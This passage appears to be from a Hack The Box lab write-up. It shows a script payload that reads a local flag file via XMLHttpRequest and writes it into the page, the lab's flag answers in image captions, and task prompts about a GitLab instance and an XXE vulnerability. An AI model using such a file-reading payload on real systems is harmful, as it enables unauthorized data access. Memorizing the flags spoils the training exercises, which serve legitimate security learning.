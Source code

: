 {% code overflow="wrap" %}
```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open('GET','file:///../flag.txt');x.send();</script>
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (50).png" alt=""><figcaption><p>HTB{49f0bad299687c62334182178bfd75d8}</p></figcaption></figure>

**Register an account and log in to the Gitlab instance. Submit the flag value (flag format : HTB{}).**

<figure><img src="../../../.gitbook/assets/image (116).png" alt=""><figcaption><p>HTB{32596e8376077c3ef8d5cf52f15279ba}</p></figcaption></figure>

**Use the XXE vulnerability to find a flag. Submit the flag value as your answer (flag format: HTB{}).**
